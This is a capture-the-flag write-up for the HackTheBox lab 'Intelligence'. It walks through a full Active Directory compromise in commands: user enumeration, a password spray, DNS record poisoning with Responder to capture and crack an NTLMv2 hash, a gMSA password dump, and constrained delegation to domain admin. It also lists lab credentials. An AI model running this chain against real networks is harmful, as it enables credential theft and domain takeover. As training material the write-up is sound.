# Intelligence -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Intelligence (HackTheBox)
**Author:** dsec
**Date:** 2025-10-20

---

## TL;DR

### Enumerated PDF uploads with date-based filenames to find users and a password. Abused a scheduled DNS check script with Responder to capture Ted.Graves NTLMv2 hash. gMSA password dump -> constrained delegation -> DA.
---
## Target info

- Host: `10.129.227.54`
- Domain: `intelligence.htb`
- Services discovered: `53/tcp (dns)`, `80/tcp (http)`, `88/tcp (kerberos)`, `445/tcp (smb)`, `5985/tcp (winrm)`
---
## Enumeration

```bash
nmap -p- --min-rate 10000 10.129.227.54 -vvv
```



```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49711,49716 -sCV 10.129.227.54 -vvv
```











---
## PDF enumeration

PDF files from the website revealed usernames:



Found: `william.lee`, `jose.williams`

Validated with Kerbrute:

```bash
kerbrute userenum --dc 10.129.227.54 -d intelligence.htb users.txt
```



**AS-REP roast didn't work:**



Upload filenames follow a date pattern, so wrote a Python script to enumerate all PDFs from 2020-01-01 to 2021-07-04:



Found more valid users:

```bash
kerbrute userenum --dc 10.129.227.54 -d intelligence.htb users.txt
```



---
## Initial access

Password spray with password found in a PDF:

```bash
nxc smb 10.129.227.54 -u users.txt -p NewIntelligenceCorpUser9876 --continue-on-success
```

Hit: `Tiffany.Molina:NewIntelligenceCorpUser9876`

Enumerated SMB:

```bash
smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.227.54 -r
```



**Ted.Graves creds from another PDF didn't work directly:**



```bash
smbclient.py intelligence.htb/Tiffany.Molina:'NewIntelligenceCorpUser9876'@10.129.227.54
```

Got user.txt flag.

Enumerated domain users:

```bash
rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" -c enumdomusers 10.129.227.54
```



---
## Lateral movement

Found `downdetector.ps1` in IT share:



The script uses LDAP to get computers starting with "web", issues a web request with running user's creds, and emails Ted.Graves on failure.

Abused this by adding a DNS record pointing to my box, then capturing creds with Responder:

```bash
sudo responder -I tun0
```

```bash
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.172 --type A intelligence.htb
```



Captured Ted.Graves NTLMv2 hash. Cracked with hashcat:

```bash
hashcat -m 5600 ted.graves.hash /usr/share/wordlists/rockyou.txt
```

Password: `Mr.Teddy`

---
## Privilege escalation

Ted has interesting privileges via IT Support group. BloodHound showed shortest path to DA:



Dumped gMSA password:

```bash
python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```



Got: `svc_int$:::5e47bac787e5e1970cf9acdb5b316239`

Used constrained delegation to impersonate Administrator:

```bash
getST.py -dc-ip 10.129.227.54 -spn www/dc.intelligence.htb -hashes :51e4932f13712047027300f869d07ab6 -impersonate administrator intelligence.htb/svc_int
```



```bash
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

Make sure to add `dc.intelligence.htb` to `/etc/hosts`.

---
## Lessons & takeaways

- Enumerate predictable file naming patterns (date-based PDFs) to find hidden content and users
- Scheduled scripts that make authenticated web requests can be abused with DNS poisoning + Responder
- gMSA passwords can be dumped if you're in the right group -- check with BloodHound
- Constrained delegation via getST.py -> wmiexec.py is a clean path to DA
---
